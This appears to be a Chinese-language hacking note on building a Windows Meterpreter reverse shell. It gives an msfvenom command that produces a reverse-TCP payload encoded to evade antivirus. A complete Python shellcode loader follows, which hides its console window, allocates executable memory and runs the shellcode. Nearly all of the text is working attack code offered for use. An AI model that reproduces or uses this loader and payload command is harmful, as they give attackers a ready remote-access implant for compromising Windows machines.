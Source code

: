 ### windows的meterpreter

#### reverse_tcp

msf生成payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.145.128  LPORT=443 -e x86/shikata_ga_nai -i 20 -f py -b '\x00' > /opt/py443.py
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900419376-c081ad30-c587-403a-b363-d4ef42c44462.png)

模版：win_tcp.py

```
import ctypes
from ctypes import *
buf = xxxxxx #你的shellcode
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```
